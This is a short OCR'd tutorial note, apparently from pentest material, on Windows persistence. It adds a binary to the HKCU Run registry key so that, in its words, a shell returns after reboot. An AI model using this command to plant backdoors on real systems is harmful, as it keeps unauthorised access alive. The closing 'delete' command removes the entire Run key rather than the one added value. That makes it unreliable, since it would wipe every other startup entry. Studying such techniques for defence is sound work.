 This time we doing something simillar to the startup folder but in registry
We add to the startup sequence our binary
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SecFault" /t REG_SZ /F /D "path to exe"
Reboot and enjoy your shell ;)
This can be checkend for example in Task Manager in Startup tab
To delete registry entry do
REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"